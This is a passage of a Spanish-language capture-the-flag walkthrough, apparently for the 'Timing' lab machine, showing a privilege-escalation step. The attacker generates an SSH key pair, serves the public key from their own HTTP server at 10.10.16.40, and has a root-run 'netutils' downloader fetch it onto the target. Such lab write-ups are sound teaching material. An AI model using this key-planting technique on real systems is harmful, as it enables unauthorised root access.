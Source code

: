 En nuestra máquina ahora generamos un par de claves SSH con ayuda de **`ssh-keygen`**

```console
p3ntest1ng:~$ ssh-keygen -t rsa -b 2048
Generating public/private rsa key pair.
Enter file in which to save the key (/home/any0ne/.ssh/id_rsa): pwnkey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in pwnkey
Your public key has been saved in pwnkey.pub
The key fingerprint is:
SHA256:iQH2ALr4QTHNqANnwfaAuRJPVJ/uNMIkxDE1Ac/ZpdM any0ne@p3ntest1ng
The key's randomart image is:
+---[RSA 2048]----+
| *@@O.  .        |
|=oXBoO =         |
|oXoo= O E        |
|*o.+.. + .       |
|+.. o = S        |
| . . + .         |
|  .   .          |
|                 |
|                 |
+----[SHA256]-----+
p3ntest1ng:~$ cp pwnkey.pub wild
```

Compartimos de nuevo un servidor http (si hemos cerrado el anterior) en nuestra maquina para que podamos descargar el **`.pub`** generado previamente.

```console
p3ntest1ng:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Volvemos a ejecutar el script y le pasamos la URL de nuestro recurso:

```console
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.16.40/wild
Initializing download: http://10.10.16.40/wild
File size: 571 bytes
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 571 byte in 0 seconds. (1.86 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 2
```
